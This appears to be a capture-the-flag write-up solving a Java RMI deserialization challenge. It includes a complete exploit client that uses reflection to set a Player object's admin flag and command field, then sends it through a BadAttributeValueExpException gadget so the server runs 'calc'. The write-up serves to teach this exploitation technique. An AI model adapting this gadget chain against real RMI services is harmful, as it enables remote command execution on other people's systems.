 ## Solution
Create Client to interactive with rmi server, rmi use 100% java serialize/unserialize to transform data so attacker can send malicious serialize object to server and let it unserialize
![rmi_services](https://camo.githubusercontent.com/c43f75e8d4e527ddc3ddd8658e96f983ea95c058d6f404eb7c115b7745e1eca1/68747470733a2f2f692e696d6775722e636f6d2f636b564b6f727a2e706e67)
In Player class we can see the check isAdmin() and method toString() let us run command, so we use java reflect to modify their value, and call gadget
```
gadget BadAttributeValueExpException.readObject() -> Player.toString()
```
to call toString of Player

```java
package rmi;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {
        String serverIP = "127.0.0.1";
        int serverPort = 1099;
        String command = "calc";

        // Dùng reflection để set các private variable trong class
        Player player = new Player();
        Field isAdmin = player.getClass().getDeclaredField("isAdmin");
        isAdmin.setAccessible(true);
        isAdmin.set(player, true);

        Field logCommand = player.getClass().getDeclaredField("logCommand");
        logCommand.setAccessible(true);
        logCommand.set(player, command);

        // Class này khi được deserialize sẽ tự động gọi object val với method toString()
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, player);

        // Với Remote Method Invocation. Gọi ASCISInterfImpl.login() với arg là object player
        Object name = val;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        System.out.println(ascisInterf.login(name));
    }
}
```

